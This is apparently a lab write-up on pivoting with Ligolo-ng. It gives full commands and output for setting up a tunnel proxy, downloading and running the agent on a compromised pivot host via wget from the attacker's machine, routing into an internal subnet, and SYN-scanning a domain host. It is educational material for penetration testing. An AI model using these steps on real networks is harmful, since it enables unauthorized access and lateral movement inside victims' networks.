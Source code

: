 # Pivoting with LigoloNG

Setting up the proxy server (`ligolo-proxy`) requires creating a logical device and launching the server with the appropriate options. LigoloNG supports requesting an SSL cert on demand using LetsEncrypt, but in this example I'll use a self-signed certificate.

```console
$ sudo ip tuntap add user kali mode tun ligolo
$ sudo ip link set ligolo up
$ ifconfig ligolo
ligolo: flags=4241<UP,POINTOPOINT,NOARP,MULTICAST>  mtu 1500
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 500  (UNSPEC)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
$ ligolo-proxy -selfcert -laddr 10.10.15.7:31337
WARN[0000] Using automatically generated self-signed certificates (Not recommended)
INFO[0000] Listening on 10.10.15.7:31337
    __    _             __
   / /   (_)___ _____  / /___        ____  ____ _
  / /   / / __ `/ __ \/ / __ \______/ __ \/ __ `/
 / /___/ / /_/ / /_/ / / /_/ /_____/ / / / /_/ /
/_____/_/\__, /\____/_/\____/     /_/ /_/\__, /
        /____/                          /____/

  Made in France ♥            by @Nicocha30!

ligolo-ng »
```

Installing `ligolo-agent` on the pivot host:

```console
$ ssh ubuntu@t
Warning: Permanently added 't' (ED25519) to the list of known hosts.
ubuntu@t's password:
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-91-generic x86_64)
...
Last login: Thu May 12 17:27:41 2022
ubuntu@WEB01:~$ ifconfig
ens192: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.129.62.81  netmask 255.255.0.0  broadcast 10.129.255.255
        inet6 fe80::250:56ff:fe94:c815  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef::250:56ff:fe94:c815  prefixlen 64  scopeid 0x0<global>
        ether 00:50:56:94:c8:15  txqueuelen 1000  (Ethernet)
        RX packets 600  bytes 69545 (69.5 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 115  bytes 12905 (12.9 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
ens224: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.16.5.129  netmask 255.255.254.0  broadcast 172.16.5.255
        inet6 fe80::250:56ff:fe94:98d6  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:94:98:d6  txqueuelen 1000  (Ethernet)
        RX packets 118  bytes 9870 (9.8 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 69  bytes 4934 (4.9 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 295  bytes 23239 (23.2 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 295  bytes 23239 (23.2 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
ubuntu@WEB01:~$ cd /dev/shm
ubuntu@WEB01:/dev/shm$ wget 10.10.15.7/ligolo-agent
--2024-06-28 16:37:39--  http://10.10.15.7/ligolo-agent
Connecting to 10.10.15.7:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1503872 (1.4M) [application/octet-stream]
Saving to: ‘ligolo-agent’
ligolo-agent                       100%[================================================================>]   1.43M   318KB/s    in 4.6s
2024-06-28 16:37:44 (318 KB/s) - ‘ligolo-agent’ saved [1503872/1503872]
ubuntu@WEB01:/dev/shm$ chmod +x ligolo-agent
```

Now I can connect from the pivot host back to my proxy server.

On the pivot host:

```console
ubuntu@WEB01:/dev/shm$ ./ligolo-agent -ignore-cert -connect 10.10.15.7:31337
WARN[0000] warning, certificate validation disabled
INFO[0000] Connection established                        addr="10.10.15.7:31337"
```

On the server, the connection appears, and I need to manually select that session to use it:

```console
ligolo-ng » INFO[0153] Agent joined.                                 name=ubuntu@WEB01 remote="10.129.62.81:48662"
[Agent : ubuntu@WEB01] » session
? Specify a session :  [Use arrows to move, type to filter]
> 1 - #1 - ubuntu@WEB01 - 10.129.62.81:48662
```

I can use the command `ifconfig` directly on the proxy server to see what networks are available via the newly connected session:

```console
[Agent : ubuntu@WEB01] » ifconfig
...
┌───────────────────────────────────────────────┐
│ Interface 2                                   │
├──────────────┬────────────────────────────────┤
│ Name         │ ens224                         │
│ Hardware MAC │ 00:50:56:94:98:d6              │
│ MTU          │ 1500                           │
│ Flags        │ up|broadcast|multicast|running │
│ IPv4 Address │ 172.16.5.129/23                │
│ IPv6 Address │ fe80::250:56ff:fe94:98d6/64    │
└──────────────┴────────────────────────────────┘
```

I need to manually add the route for the network I want to pivot to:

```console
$ sudo ip route add 172.16.4.0/23 dev ligolo
```

Then I can start the tunnel on the proxy server:

```console
[Agent : ubuntu@WEB01] » tunnel_start
[Agent : ubuntu@WEB01] » INFO[0455] Starting tunnel to ubuntu@WEB01
```

Now the host is reachable and I can send arbitrary network traffic that wouldn't work if I were using `proxychains` or `sshuttle`, like this SYN scan:

```console
$ sudo nmap -sS -F 172.16.5.19
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-28 10:52 CST
Nmap scan report for 172.16.5.19
Host is up (0.65s latency).
Not shown: 92 closed tcp ports (reset)
PORT     STATE SERVICE
53/tcp   open  domain
80/tcp   open  http
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
Nmap done: 1 IP address (1 host up) scanned in 2.58 seconds
```

You can also access the target's loopback interface using `240.0.0.1`:

```console
$ sudo ip route add 240.0.0.1/32 dev ligolo

$ ping 240.0.0.1
PING 240.0.0.1 (240.0.0.1) 56(84) bytes of data.
64 bytes from 240.0.0.1: icmp_seq=1 ttl=64 time=198 ms
64 bytes from 240.0.0.1: icmp_seq=2 ttl=64 time=193 ms
^C

$ nc 240.0.0.1 5666 -nvz
(UNKNOWN) [240.0.0.1] 5666 (nrpe) open
```
